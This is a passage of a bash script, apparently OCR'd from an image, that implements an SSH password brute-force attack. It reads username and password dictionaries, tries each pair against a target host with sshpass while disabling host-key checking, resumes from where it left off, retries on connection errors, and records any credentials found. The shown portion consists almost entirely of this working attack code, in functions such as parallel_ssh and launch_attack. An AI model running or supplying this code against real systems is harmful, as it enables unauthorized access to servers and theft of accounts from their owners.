 ```bash
       if [ "$rvaluser" == 0 ]; then
          rowuser=$(echo "$row1user" | cut -d ":" -f1)
          tail -n +"$rowuser" "$userlist" > "$userlist"\.new
          userlist=$(echo "$userlist"\.new)
      fi

       if [ "$rvalpass" == 0 ]; then
         rowpass=$(echo "$row1pass" | cut -d ":" -f1)
         tail -n +"$rowpass" "$passlist" > "$passlist"\.new
         passlist=$(echo "$passlist"\.new)
       fi
    else
       [ ! -f "$pthdir/01xza01.txt" ] && echo "Warning: Can't find file containing last used username and password in directory '$pthdir', starting from beginning"
    fi

    maxusercount=$(wc -l "$fulluserlist" | cut -d " " -f1)
    maxpasscount=$(wc -l "$fullpasslist" | cut -d " " -f1)
    maxcount=$(( $maxusercount * $maxpasscount ))
    [ ! -f "$pthdir/01xza01.txt" ] && actualcount=1
}

function parallel_ssh {
 echo "$user":"$pass" > "$pthdir/01xza01.txt"
 sshpass -p "$pass" ssh -6 -o StrictHostKeyChecking=no -p "$port" "$user"@"$ip" exit &>/dev/null; retval="$?"
 [ "$retval" == 0 ] && echo "*** Found username: '$user' and password: '$pass' ***"  > "$pthdir/x0x901f22result.txt"
    #   While loop eliminates 'Connection refused' attempts -> retval=255 and 'General runtime error' -> retval=3  
    #   It happens when parameter 'n' is too small
    #   retval must be either 0 -> good password or 5 -> bad password
 while [ "$retval" == 255 -o "$retval" == 3 ]; do
    sshpass -p "$pass" ssh -6 -o StrictHostKeyChecking=no -p "$port" "$user"@"$ip" exit &>/dev/null; retval="$?"
    [ "$retval" == 0 ] && echo "*** Found username: '$user' and password: '$pass' ***"  > "$pthdir/x0x901f22result.txt"
    sleep "$nval"
 done
}

function launch_attack {
 while read user; do
    while read pass; do
       if [ ! -f "$pthdir/x0x901f22result.txt" ]; then
         echo "Trying username: '$user' and password: '$pass'"
	 parallel_ssh &>/dev/null &
       else
          evaluate_result
       fi
       sleep $nval
    done < "$passlist"
    passlist="$fullpasslist"                                                        # Always start search with first pass from dictionary when user is changed
 done < "$userlist"
 evaluate_result
}

# Show ellapsed time
function ellapsed_time {
 END_TIME=$(date +%s.%N)
 dt=$(echo "$END_TIME - $START_TIME" | bc)
 dd=$(echo "$dt/86400" | bc)
```